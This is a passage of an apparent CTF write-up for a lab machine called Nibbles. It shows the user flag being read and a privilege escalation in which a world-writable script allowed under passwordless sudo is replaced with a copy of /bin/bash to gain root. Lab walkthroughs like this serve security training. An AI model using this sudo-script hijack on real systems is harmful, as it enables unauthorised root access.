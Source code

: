 Stablized the shell

### User Flag
```bash
nibbler@Nibbles:/home/nibbler$ cat user.txt 
cb2c14f39d69f59ec770ac6c63eb4deb
```
## Privilege Escalation

### Process
Found an interesting file `personal.zip` and an interesting command `/home/nibbler/personal/stuff/moitor.sh` that `nibbler` can run as sudo.

```bash
nibbler@Nibbles:/home/nibbler$ ls
total 20
drwxr-xr-x 3 nibbler nibbler 4096 Apr  3 05:31 .
drwxr-xr-x 3 root    root    4096 Dec 10  2017 ..
-rw------- 1 nibbler nibbler    0 Dec 29  2017 .bash_history
drwxrwxr-x 2 nibbler nibbler 4096 Dec 10  2017 .nano
-r-------- 1 nibbler nibbler 1855 Dec 10  2017 personal.zip
-r-------- 1 nibbler nibbler   33 Apr  3 01:04 user.txt
nibbler@Nibbles:/home/nibbler$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Thus unzipping `personal.zip` and executing `monitor.sh`. Unfortunately `monitor.sh` is a bash script to just check the computer vitals, etc. Thus to get a shell as root. I will copied `/bin/bash` to current directory and renamed it as `monitor.sh`

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls
total 12
drwxr-xr-x 2 nibbler nibbler 4096 Dec 10  2017 .
drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 ..
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ cp /bin/bash .
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls
total 1028
drwxr-xr-x 2 nibbler nibbler    4096 Apr  3 05:36 .
drwxr-xr-x 3 nibbler nibbler    4096 Dec 10  2017 ..
-rwxr-xr-x 1 nibbler nibbler 1037528 Apr  3 05:36 bash
-rwxrwxrwx 1 nibbler nibbler    4015 May  8  2015 monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ rm monitor.sh 
nibbler@Nibbles:/home/nibbler/personal/stuff$ mv bash monitor.sh
```
